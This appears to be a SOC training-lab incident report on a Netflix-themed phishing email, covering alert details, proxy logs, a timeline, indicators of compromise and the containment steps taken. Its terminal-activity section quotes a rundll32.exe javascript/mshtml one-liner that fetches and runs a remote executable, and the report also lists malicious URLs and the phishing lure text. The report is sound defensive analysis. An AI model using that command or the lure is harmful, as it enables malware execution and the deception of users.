








# Incident 9 — SOC101: Phishing Mail Detected

## 9.1 Incident Summary
- **Incident Name/ID:** SOC101 – Phishing Mail Detected  
- **Event ID:** 34  
- **Severity:** Low  
- **Date/Time:** Dec 05, 2020, 10:33 PM  
- **Category:** Phishing / Social Engineering  
- **User Account:** emily@letsdefend.io  
- **Affected Host:** Emily (Windows 10, Internal IP: 172.16.17.159)

---

## 9.2 Alerts, Logs, and Evidence

### **Alert Details**
- The monitoring system detected a **phishing email attempt** delivered to a user mailbox.
- Sender Email: **admin@netflix-payments.com**
- Recipient Email: **emily@letsdefend.io**
- Email Subject: **Netflix Deals!**
- SMTP Source IP: **112.85.42.180**

The email contained a **malicious shortened URL** designed to lure the user into clicking a fake promotion offering free Netflix membership.

Example phishing content: "Hey, Register now and get 2 months free membership!
http://bit.ly/3ecXem52 Netflix."

The use of a **URL shortener and promotional language** is a common phishing tactic used to hide malicious destinations.

---

### **Log Evidence**

**Email Security Logs**

- SMTP Source IP: **112.85.42.180**
- Sender Address: **admin@netflix-payments.com**
- Recipient Address: **emily@letsdefend.io**
- Mail Server Action: **Allowed**

This indicates the email bypassed initial filtering and was delivered to the user's mailbox.

---

**Proxy Logs**

User activity after the email was delivered shows browsing activity to URLs related to the phishing campaign.

Example logs:

| Source IP | Destination | Port | Process |
|-----------|-------------|------|--------|
| 172.16.17.159 | files-ld.s3.us-east-2.amazonaws.com | 443 | Chrome.exe |
| 172.16.17.49 | places.hayatistanbul.net | 80 | Chrome.exe |

- A suspicious download request was observed: "https://files-ld.s3.us-east-2.amazonaws.com/free-netflix.7z"
- This suggests the phishing email attempted to deliver a **malicious archive file disguised as a promotional offer**.

---

**Terminal Activity**

- Suspicious command execution was detected:
"rundll32.exe javascript:"..\mshtml,RunHTMLApplication";document.write();GetObject("script:http://ru-uid-507352920.pp.ru/KBDYAK.exe
")"
- This command attempts to download and execute a remote payload, which is a known **malware execution technique**.

---

**Browser History**

- The user accessed the following URL: http://bit.ly/3ecXem52
- This link redirected to a suspicious domain: http://places.hayatistanbul.net/wp-content/themes/Netflix
- This confirms the phishing email successfully tricked the user into visiting a malicious website.

---

## 9.3 Indicators of Compromise (IOCs)

| Type | Value |
|------|------|
| **Sender Email** | admin@netflix-payments.com |
| **SMTP Source IP** | 112.85.42.180 |
| **Malicious URL** | http://bit.ly/3ecXem52 |
| **Redirect Domain** | places.hayatistanbul.net |
| **Malicious File** | free-netflix.7z |
| **Malware URL** | http://ru-uid-507352920.pp.ru/KBDYAK.exe |
| **Phishing Subject** | Netflix Deals! |

---

## 9.4 Root Cause, Attack Vector, and Impact

### **Root Cause**
A phishing email containing a malicious shortened URL was delivered to the user’s mailbox.

### **Attack Vector**
Social engineering via email phishing campaign impersonating a **Netflix promotional offer**.

The attack used:
- Fake sender domain
- URL shortener
- Malicious download link

### **Impact**

- User accessed the phishing link.
- Suspicious download activity detected.
- Potential malware execution attempt via **rundll32.exe**.
- Endpoint required containment to prevent further compromise.

**Impact Level:** Low

---

## 9.5 Tools and Techniques Used

During the investigation, the following tools and modules were used:

- Email Security Logs
- Monitoring Dashboard
- Proxy Logs
- Browser History Analysis
- Endpoint Security Monitoring
- Threat Intelligence Lookup
- Case Management System

---

## 9.6 Screenshots (Placeholders)

---

## 9.7 Detailed Investigation Notes

### **Timeline**

- **10:33 PM** — Phishing email delivered to **emily@letsdefend.io**  
- **10:35 PM** — User accessed shortened phishing URL  
- **10:36 PM** — Browser redirected to suspicious domain  
- **10:37 PM** — Suspicious file download request observed  
- **10:38 PM** — Suspicious command execution detected via **rundll32.exe**  
- **10:40 PM** — SOC101 alert triggered

---

### **Analyst Observations**

- The email impersonates a Netflix promotion to lure users.
- The sender domain **netflix-payments.com** is not an official Netflix domain.
- The phishing message uses a **URL shortener to hide the final malicious destination**.
- Proxy logs show the user attempted to download a suspicious archive file.
- The use of **rundll32.exe to execute remote scripts** indicates a potential malware delivery attempt.

---

## 9.8 Conclusion

- This incident is classified as a **True Positive phishing attack**.
- A phishing email containing a malicious shortened link was successfully delivered to the user. The user accessed the link, which redirected to a malicious website and attempted to download a suspicious file.

Response actions taken:

- **Phishing email removed from mailbox**
- **Affected endpoint isolated**
- **Malicious domains blocked**
- **User advised about phishing awareness**

No further lateral movement or system compromise was detected after containment.

